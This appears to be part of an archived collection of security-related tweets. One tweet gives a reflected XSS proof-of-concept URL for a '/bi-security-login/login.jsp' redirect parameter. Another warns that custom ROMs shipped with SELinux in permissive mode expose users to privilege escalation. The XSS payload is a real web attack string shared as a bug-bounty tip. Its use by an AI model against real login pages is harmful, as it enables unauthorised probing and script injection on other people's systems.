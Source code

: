 POC:
/bi-security-login/login.jsp?msi=false&amp;redirect="&gt;&lt;img/src/onerror%3dalert('xss')&gt;

Ref:
https://t.co/ohcvAHKxFg

#bugbounty #bugbountytips  #xss https://t.co/bzNQ6z7lwt
</blockquote>

* https://twitter.com/HackerOn2Wheels/status/1326927875279380480

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+EtyO88pVgAoVXdT.jpg" alt="http://pbs.twimg.com/media/EtyO88pVgAoVXdT.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# topjohnwu
**https://twitter.com/topjohnwu/status/1359054106019565571 _at 2021-02-09 08:18:43_**
<blockquote>
Remember when I said using SELinux permissive is really bad? Here is a privilege escalation PoC where the only requirement is SELinux permissive. If you are still releasing custom ROMs/kernels with permissive, YOU ARE LITERALLY BACKDOORING YOUR USERS!
https://t.co/iJ48PeDood
</blockquote>
